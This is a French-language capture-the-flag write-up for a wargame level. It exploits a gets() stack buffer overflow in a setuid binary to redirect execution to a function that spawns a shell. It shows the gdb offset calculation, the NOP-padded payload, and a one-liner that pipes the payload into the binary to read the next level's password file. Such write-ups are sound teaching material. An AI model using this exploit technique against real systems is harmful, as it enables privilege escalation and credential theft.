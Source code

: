 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2030(level1) gid=2030(level1) groups=2030(level1),100(users)
/home/user/level1
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Je tente d'exécuter le binaire `level1` :

```bash
$ ./level1
(waiting for input)
$ ./level1
hello world?
$
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=621e2f06-c90f-42e1-b556-a4a225fc4b1b) et en extrait une version probable du code :

```c
void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Le code présente une vulnérabilité : `gets()`. Cette fonction n'a pas de limite de byte lus, et va écrire dans un buffer de taille 64, je peux donc overflow.

Cela me permet d'exploiter une vulnérabilité similaire à celle connue sous le nom de `Ret2Libc` ([plus d'information ici](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)).

Cette vulnérabilité consiste à ré-écrire l'adresse sur laquelle la dernière instruction (`ret`) d'une fonction pointe (aussi appellé l'`EIP`).

En overflowant le buffer qui m'est donné ici, je peux donc écrire sur la stack et ré-écrire l'`EIP` pour le faire pointer sur autre chose, dans mon cas de figure, je vais faire pointer l'adresse de retour de `main()` vers `run()`.

Cela signifie que lorsque j'aurais envoyé mon "payload" a `gets()`, celui-ci, qui sera trop grand, va écrire sur la stack, et modifier l'exécution de `main()`, qui au lieu de return vers son caller (ce qui équivaut à un `exit` dans un cas classique), va return vers `run()`, et donc exécuter cette fonction.

Il me faut trouver deux informations afin d'exécuter cet exploit :

- La taille de la stack
- L'adresse de `run()` dans la mémoire

J'utilise `gdb` pour trouver la taille de la stack :

```h
$ gdb ./level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.

(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave <------------ break ici avant le clean de la stack
   0x08048496 <+22>:    ret
End of assembler dump.

(gdb) b *main+21
Breakpoint 1 at 0x8048495

(gdb) r
Starting program: /home/user/level1/level1
dab

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers
...
esp            0xbffff6c0       0xbffff6c0 <--- pointe vers le début de la stack
ebp            0xbffff718       0xbffff718 <--- pointe vers la fin de la stack
...
```

Le calcul suivant : `0xbffff718 - 0xbffff6c0 = 0x58 = 88` m'indique que la stack fait donc 88 bytes dans ce programme. Je dois cependant soustraire `0x10` à mon calcul pour l'overflow, car le buffer n'est pas déclaré au début de la stack comme le montre l'instruction suivante :

```h
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```

Mais à `0x10` de la valeur `%esp`, soit un décalage de `0x10 = 16` bytes.
Je soustrais donc 16 bytes à 88 et trouve : `88 - 16 = 72` bytes afin de pointer sur `ebp`.

Il ne me reste qu'à ajouter 4 bytes supplémentaire à ce calcul pour atteindre l'adresse qui contient la valeur de retour de la fonction `main()`, qui sera enfin utilisé par :

```h
   0x08048496 <+22>:    ret
```

Je dois donc remplir le buffer de 76 bytes, puis, écrire l'adresse de `run()` que je trouve de cette façon :

```h
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run> 
```

Je peux donc maintenant construire mon "payload infecté" de cette manière :

```h
"\x90" * 76 + "\x08\x04\x84\x44"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^
buffer -> ebp    adresse de run()
```

`\x90` représente un `NOP` (no operation) et est l'instruction idéale pour le padding, puisqu'elle permet de préserver l'alignement de la mémoire. Ce pattern s'appelle un `NOP sled`.

J'utilise le payload sur le binaire `level1` :

```bash
$ (python -c 'print("\x90" * 76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
